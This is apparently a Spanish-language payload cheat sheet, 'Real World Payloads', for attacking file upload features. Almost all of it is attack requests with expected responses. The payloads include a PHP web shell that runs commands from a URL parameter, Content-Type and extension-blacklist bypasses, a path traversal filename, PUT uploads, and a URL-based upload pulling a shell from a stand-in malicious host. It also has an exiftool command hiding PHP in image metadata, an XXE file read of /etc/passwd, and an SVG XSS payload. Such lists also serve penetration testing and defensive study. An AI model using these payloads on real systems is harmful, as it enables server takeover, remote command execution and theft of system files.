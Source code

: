 # 📑 Real World Payloads

## Subida de Shells Web

### PHP Shell Básico

```php
<?php echo system($_GET['command']); ?>
```

### Uso del Shell

```http
GET /uploads/shell.php?command=id HTTP/1.1
Host: target.com
```

#### Respuesta esperada

```http
HTTP/1.1 200 OK
Content-Type: text/plain

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

***

## Explotar Validaciones Defectuosas

### Payload para Bypass de `Content-Type`

```http
POST /upload HTTP/1.1
Host: target.com
Content-Type: image/jpeg

<?php echo file_get_contents('/etc/passwd'); ?>
```

#### Respuesta esperada

```http
HTTP/1.1 200 OK
Content-Type: text/plain

root:x:0:0:root:/root:/bin/bash
...
```

***

## Bypass de Blacklists

### Payloads para Extensiones Ofuscadas

```
exploit.php.jpg
exploit.php.
exploit%00.php
exploit.php5
```

#### Respuesta esperada

```http
HTTP/1.1 200 OK
Content-Type: text/plain

Archivo subido correctamente.
```

***

## Path Traversal en la Subida

### Payload de Path Traversal

```http
POST /upload HTTP/1.1
Host: target.com
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="file"; filename="../../shell.php"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>
---------------------------012345678901234567890123456--
```

#### Respuesta esperada

```http
HTTP/1.1 200 OK
Content-Type: text/plain

Archivo subido correctamente.
```

***

## Subida de Archivos usando `PUT`

### Payload PUT

```http
PUT /uploads/shell.php HTTP/1.1
Host: target.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/etc/passwd'); ?>
```

#### Respuesta esperada

```http
HTTP/1.1 201 Created
```

***

## Subida Basada en URL

### Payload de URL

```http
POST /upload-url HTTP/1.1
Host: target.com
Content-Type: application/json

{
  "url": "http://malicious-site.com/shell.php"
}
```

#### Respuesta esperada

```http
HTTP/1.1 200 OK
Content-Type: text/plain

Archivo descargado y subido correctamente.
```

***

## Validación del Contenido del Archivo

### Modificación con EXIFTOOL

```bash
exiftool -Comment="<?php echo file_get_contents('/etc/passwd'); ?>" image.jpg -o shell.jpg
```

#### Respuesta esperada

```http
HTTP/1.1 200 OK
Content-Type: text/plain

Contenido del archivo leído con éxito.
```

***

## Exploits en el Análisis de Archivos

### Payload XXE

```xml
<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>
```

#### Respuesta esperada

```http
HTTP/1.1 200 OK
Content-Type: text/plain

root:x:0:0:root:/root:/bin/bash
...
```

***

## Subida de Scripts para Ataques del Lado del Cliente

### Payload SVG con XSS

```html
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert('XSS');</script>
</svg>
```

#### Respuesta esperada

Cuando otro usuario visite la página donde se sirve el archivo:

```javascript
[ALERTA] XSS activado
```
